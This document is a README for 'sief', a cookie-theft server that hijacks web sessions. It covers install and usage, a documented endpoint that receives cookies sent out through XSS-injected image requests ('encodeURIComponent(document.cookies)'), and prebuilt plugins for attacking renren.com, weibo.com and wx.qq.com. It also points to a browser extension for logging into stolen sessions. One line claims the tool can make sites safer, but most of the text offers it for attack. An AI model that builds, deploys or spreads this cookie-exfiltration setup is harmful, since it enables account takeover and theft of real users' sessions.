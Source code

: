 sief
=============

A server listening to cookie submission to hijack session, supporting writing plugins for site specific attacks.

    sief = thief + safe

This is a project to hijack sessions, and also a project to make your site safer, depending on the way you use it.

## Features

* Request to an image to upload cookies stolen by xss/network eavsdropping/dns hijack/other.
* Log persistence.
* Prebuilt plugins to attack renren.com, weibo.com, wx.qq.com.
* Write your own plugins to do other attacks you desired. Plugins are loaded/reloaded/unloaded when added/changed/removed automatically, no need to restart.
* View real-time cookie submissions and login to those hijacked sessions directly in browser with [Sief Chrome Extension](https://github.com/shaoshuai0102/sief-chrome-extension).
* Ignore cookie submissions if the same one is received before, during a specified period of time, to protect your server.

## Install

1. Install PhantomJS

2. Install sief

   `npm install sief -g`

## Usage

### Server

    Usage: sief [options] <plugin|dir ...>

    Options:

      -h, --help                   output usage information
      -V, --version                output the version number
      -i, --ignore-time [seconds]  specify seconds during which same requests will be ignored [300]
      -p, --port [port]            specify the port sief server listening to [3000]
      -l, --log-level [level]      set log level [INFO]


### Submit cookies

    GET /xxx.png?cookie=#cookies#&referer=#referer#&domain=#domani#

Parameters:

* `cookies` - Required. Encode cookies first, for example, `encodeURIComponent(document.cookies)`
* `referer` - If the attack is an xss exploit, referer will be retrieved from `headers.referer` directly, otherwise, specifiy it in query string.
* `domain` - Domain is calculated from referer, defaults to main domain, for example `qq.com`. IF you want to fire a attack to its subdomain(`wx.qq.com`), specify it in query string.